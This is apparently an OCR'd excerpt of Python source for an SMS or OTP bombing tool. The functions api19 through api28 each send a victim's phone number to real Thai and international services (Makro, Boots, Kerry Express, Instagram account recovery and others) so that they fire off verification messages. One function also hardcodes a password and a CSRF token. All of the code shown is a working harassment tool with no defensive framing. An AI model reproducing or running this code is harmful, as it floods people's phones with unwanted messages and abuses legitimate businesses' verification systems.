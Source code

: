     

def api19(phone):

    post(f"http://m.vcanbuy.com/gateway/msg/send_regist_sms_captcha?mobile=66-{phone}")

    

def api20(phone):

    post("https://shop.foodland.co.th/login/generation", data={"phone": phone})

    

def api21(phone):

    post("https://jdbaa.com/api/otp-not-captcha", data={"phone_number":phone})

    

def api22(phone):

    post("https://unacademy.com/api/v3/user/user_check/",json={"phone":phone,"country_code":"TH"},headers={}).json()



def api23(phone):

    post("https://shoponline.ondemand.in.th/OtpVerification/VerifyOTP/SendOtp", data={"phone": phone})

    

def api24(phone):

    post("https://ocs-prod-api.makroclick.com/next-ocs-member/user/register",json={"username": phone,"password":"6302814184624az","name":"0903281894","provinceCode":"28","districtCode":"393","subdistrictCode":"3494","zipcode":"40260","siebelCustomerTypeId":"710","acceptTermAndCondition":"true","hasSeenConsent":"false","locale":"th_TH"})

    

def api25(phone):

    post("https://store.boots.co.th/api/v1/guest/register/otp",json={"phone_number": phone})

    

def api26(phone):

    post("https://www.instagram.com/accounts/account_recovery_send_ajax/",data=f"email_or_username={phone}&recaptcha_challenge_field=",headers={"Content-Type":"application/x-www-form-urlencoded","X-Requested-With":"XMLHttpRequest","User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.116 Safari/537.36","x-csrftoken": "EKIzZefCrMss0ypkr2VjEWZ1I7uvJ9BD"}).json

    

def api27(phone):

    post("https://th.kerryexpress.com/website-api/api/OTP/v1/RequestOTP/"+phone)

    

def api28(phone):

    post("https://api.scg-id.com/api/otp/send_otp", headers={"Content-Type": "application/json;charset=UTF-8"},json={"phone_no": phone})

